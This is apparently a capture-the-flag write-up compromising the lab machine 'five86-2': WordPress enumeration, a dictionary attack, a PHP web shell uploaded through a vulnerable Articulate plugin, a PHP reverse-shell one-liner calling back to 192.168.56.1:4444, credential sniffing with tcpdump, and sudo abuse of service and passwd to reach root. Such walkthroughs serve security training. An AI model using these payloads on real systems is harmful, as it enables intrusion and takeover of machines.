## Nmap



We see that there is only two open port. We'll start our enumeration with the HTTP service.

***

## HTTP

Since we can see that the website is supposed to be running wordpress we'll just add the `IP` to our `/etc/hosts`.

```
192.168.56.146 five86-2
```



I then ran `wpscan` on that website

```bash
➜ wpscan -e u,ap --no-banner --wp-content-dir  wp-content/ --url http://five86-2/
```



Since I had 5 user names I decided to do dictionary attack on those accounts so I made a list named `users.txt` having all the usernames and used rockyou for password list.



```
barney:spooky1
stephen:apollo1
```

With the `stephen` account I was able to login into FTP service. I enumerated lots of file using FTP but none of them lead me to anything. So I decided to login as `stephen` in WP but again there was nothing interesting. But when we login as `barney` in WP we see that there are some plugins allowed.



If you notice one thing is that only one of them was active so I looked around for any exploit and actually found one [WordPress Plugin Insert or Embed Articulate Content into WordPress - Remote Code Execution](https://www.exploit-db.com/exploits/46981), the only issue in that exploit is that in the end it ask you to visit `wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami` but it should be `wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` notice the `wp-content` in place of `wp-admin` other than that everything should be same.

```bash
echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
zip poc.zip index.html index.php
```
Then upload the zip file and visit `http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` and you should have the RCE.



Now we can use this exploit to get a reverse shell. I tried to run `nc` shell command but it didn't worked so I used the following PHP command:

```bash
php -r '$sock=fsockopen("192.168.56.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```



***

## Privilege escalation

Since I have two username and password I tried to `su` into those account and I was succesfully able to change to `stephen` account.



I then ran my enumeration script and found out that there was a `suid` present but it can only be run by `peter`. Now after looking around for a while I noticed that `stephen` was in `pcap` group.



And then in the output of my `enumeration script` I saw that `tcpdump` had some `capabilities`.



So I decided to run `tcpdump` on the `lo` interface and just see what I could catch.

```bash
timeout 300 tcpdump -i lo -w hack.pcap
```

And then used `FTP` to download the file easily to my system to analyze it.
In that file I saw that there was some `FTP` protocol and it had the name of `paul` so I read that packet conversation and found the password for `paul`



`paul:esomepasswford`

We are paul but we need to become peter so I again looked around and found out that `paul` is allowed to run `/usr/sbin/service` as `peter` because of `sudo-rights`.



I used [`gtfo`](https://github.com/mzfr/gtfo) to search gtfobins for this `service` and found a way we can spawn a shell using it:


We can run `sudo -u peter service ../../bin/sh`



And then I noticed that `peter` have sudo rights too, he was allowed to run `passwd` as `root`.



So I used that to change the password of `root` to `hackerman`.



And then got the root shell and root flag.



***

Really enjoyed this one, looks like we'll be getting another awesome series from [@DCAU7](https://twitter.com/DCAU7).

Thanks to [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
